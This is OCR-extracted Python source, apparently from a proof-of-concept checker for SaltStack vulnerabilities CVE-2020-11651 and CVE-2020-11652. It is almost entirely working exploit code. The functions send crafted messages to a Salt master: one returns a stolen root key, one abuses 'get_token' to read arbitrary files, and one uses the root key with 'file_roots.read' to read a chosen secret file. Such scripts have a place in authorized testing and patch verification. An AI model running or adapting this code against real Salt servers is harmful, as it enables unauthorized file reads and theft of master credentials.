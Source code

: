 ```python
  else:
    pass
  finally:
    if rets:
      print('YES')
      root_key = rets[2]['root']
      return root_key

  print('NO')
  return None

def check_CVE_2020_11652_read_token(debug, channel, top_secret_file_path):
  print("[+] Checking if vulnerable to CVE-2020-11652 (read_token)... ", end='')
  sys.stdout.flush()

  # try read file
  msg = {
    'cmd': 'get_token',
    'arg': [],
    'token': top_secret_file_path,
  }

  try:
    rets = channel.send(msg, timeout=3)
  except salt.exceptions.SaltReqTimeoutError:
    print("YES")
  except:
    print("ERROR")
    raise
  else:
    if debug:
      print()
      print(rets)
    print("NO")
  
def check_CVE_2020_11652_read(debug, channel, top_secret_file_path, root_key):
  print("[+] Checking if vulnerable to CVE-2020-11652 (read)... ", end='')
  sys.stdout.flush()

  # try read file
  msg = {
    'key': root_key,
    'cmd': 'wheel',
    'fun': 'file_roots.read',
    'path': top_secret_file_path,
    'saltenv': 'base',
  }

  try:
    rets = channel.send(msg, timeout=3)
  except salt.exceptions.SaltReqTimeoutError:
    print("TIMEOUT")
  except:
    print("ERROR")
    raise
  else:
    if debug:
      print()
      print(rets)
    if rets['data']['return']:
      print("YES")
    else:
      print("NO")
```